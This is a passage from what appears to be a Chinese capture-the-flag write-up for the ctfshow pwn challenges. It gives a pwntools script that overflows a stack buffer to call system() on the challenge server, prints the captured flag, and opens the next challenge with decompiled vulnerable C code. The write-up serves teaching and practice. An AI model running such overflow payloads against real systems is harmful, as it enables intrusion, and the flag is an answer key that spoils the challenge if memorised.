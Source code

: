 ```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28251

p = remote(ip,port)

payload = b'a'* (0x12 + 0x04) + p32(0x080483D0) + p32(0) + p32(0x080487BA)

p.sendline(payload)

p.interactive()
```





拿到flag：

```
ctfshow{d772faf8-75e3-45a9-a1d9-bb50c201290a}
```





## 42. pwn42

64位的 system(); 但是没"/bin/sh" ，好像有其他的可以替代

![image-20241101154949461](../_media/image-20241101154949461.png)



形式基本一样：

```c
ssize_t ctfshow()
{
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF

  return read(0, buf, 0x32uLL);
}
```

